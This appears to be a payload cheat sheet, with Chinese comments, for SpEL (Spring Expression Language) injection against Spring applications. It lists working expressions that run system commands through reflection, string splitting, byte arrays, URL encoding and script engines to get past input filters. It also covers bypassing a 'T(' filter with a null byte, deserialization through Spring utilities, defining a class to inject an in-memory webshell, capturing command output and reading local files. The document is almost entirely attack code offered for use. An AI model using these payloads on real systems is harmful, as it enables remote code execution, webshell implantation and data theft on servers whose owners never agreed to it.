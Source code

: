 ```java
// 反射调用+字符串拼接，绕过正则过滤
T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("ex"+"ec",T(String[])).invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("getRu"+"ntime").invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime")),new String[]{"cmd","/C","calc"})

// 同上，需要有上下文环境
#this.getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("ex"+"ec",T(String[])).invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("getRu"+"ntime").invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime")),new String[]{"cmd","/C","calc"})


''.getClass 替换为 ''.class.getSuperclass().class
''.class.getSuperclass().class.forName('java.lang.Runtime').getDeclaredMethods()[14].invoke(''.class.getSuperclass().class.forName('java.lang.Runtime').getDeclaredMethods()[7].invoke(null),'calc')


// 当执行的系统命令被过滤或者被URL编码掉时，可以通过String类动态生成字符
// byte数组内容的生成后面有脚本
new java.lang.ProcessBuilder(new java.lang.String(new byte[]{99,97,108,99})).start()
// char转字符串，再字符串concat
T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(108)).concat(T(java.lang.Character).toString(99)))


T(javax.script.ScriptEngineManager).newInstance().getEngineByName("nashorn").eval("s=[3];s[0]='cmd';s[1]='/C';s[2]='calc';java.la"+"ng.Run"+"time.getRu"+"ntime().ex"+"ec(s);")

T(org.springframework.util.StreamUtils).copy(T(javax.script.ScriptEngineManager).newInstance().getEngineByName("JavaScript").eval("xxx"),)

T(org.springframework.util.StreamUtils).copy(T(javax.script.ScriptEngineManager).newInstance().getEngineByName("JavaScript").eval(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("ex"+"ec",T(String[])).invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("getRu"+"ntime").invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime")),new String[]{"cmd","/C","calc"})),)

T(org.springframework.util.StreamUtils).copy(T(javax.script.ScriptEngineManager).newInstance().getEngineByName("JavaScript").eval(T(java.net.URLDecoder).decode("%6a%61%76%61%2e%6c%61%6e%67%2e%52%75%6e%74%69%6d%65%2e%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%22%63%61%6c%63%22%29%2e%67%65%74%49%6e%70%75%74%53%74%72%65%61%6d%28%29")),)

//绕过T( 过滤
T%00(new)
这涉及到SpEL对字符的编码，%00会被直接替换为空

//使用Spring工具类反序列化，绕过new关键字
T(org.springframework.util.SerializationUtils).deserialize(T(com.sun.org.apache.xml.internal.security.utils.Base64).decode('rO0AB...'))
// 可以结合CC链食用

//使用Spring工具类执行自定义类的静态代码块
T(org.springframework.cglib.core.ReflectUtils).defineClass('Singleton',T(com.sun.org.apache.xml.internal.security.utils.Base64).decode('yv66vgAAADIAtQ....'),T(org.springframework.util.ClassUtils).getDefaultClassLoader()) //注入内 存马

//无版本限制回显
new java.util.Scanner(new java.lang.ProcessBuilder("cmd", "/c", "dir", ".\\").start().getInputStream(), "GBK").useDelimiter("asfsfsdfsf").next()

//nio 读文件
new String(T(java.nio.file.Files).readAllBytes(T(java.nio.file.Paths).get(T(java.net.URI).create("file:/C:/Users/helloworld/1.txt"))))
```